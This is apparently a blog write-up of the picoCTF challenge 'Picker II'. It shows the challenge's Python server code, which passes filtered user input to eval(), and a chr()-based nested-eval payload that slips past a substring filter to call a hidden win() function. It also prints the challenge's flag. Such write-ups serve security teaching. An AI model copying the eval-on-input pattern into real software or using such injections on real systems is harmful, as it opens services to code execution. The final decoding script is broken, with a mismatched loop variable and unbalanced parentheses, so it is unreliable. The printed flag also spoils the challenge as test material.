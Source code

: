 ```yaml
---
title: "PicoCTF: Picker II"
summary: "Navigating around a simple substring check."
date: 2024-09-08
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```

# Investigating the Source Code
In this challenge, we are provided with the source code of the script directly.

Here are the interesting snippets of the source code:

```python3
def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break

```

It looks like the entrypoint for the server uses a helper function, `filter()`, to determine if the user is trying to call the `win()` function.

The important thing to note is that the code assumes any input past the `filter()` function is valid, so it does not perform any additional checks.

So, we just need to get the `user_input` variable to evaluate to the string "win" when the server executes our Python code.

# The Nested Eval Approach
## Intuition
We know that we need the `user_input` variable to evaluate to "win" after the server executes our code. So, we can provide as input an `eval()` function that evaluates to "win".

## Implementation
In this case, I just had a short line of code that converted the ASCII values of "w", "i", "n" to their respective characters, and added them into the single word "win".

```python3
eval(chr(119) + chr(105) + chr(110)) # win
```


On the server, this essentially gets represented like below:
```python3
eval(eval(chr(119) + chr(105) + chr(110)) + '()')
```

After the nested `eval()` call, the server essentially executes the below code, which outputs the flag:
```python3
eval("win" + '()') # -> eval("win()")

```

## Cleaning Up the Flag
Similar to Picker I, the output of the flag is a space separated string of hex codes:

```
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x39 0x35 0x64 0x34 0x34 0x35 0x39 0x30 0x7d
```

So, we can write a tiny Python script to clean up this text and output the flag:

```python3

flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x39 0x35 0x64 0x34 0x34 0x35 0x39 0x30 0x7d"

flag = flag.split(" ")

print("".join(chr(int(word, 16)) for char in flag if char != "")
# picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}
```
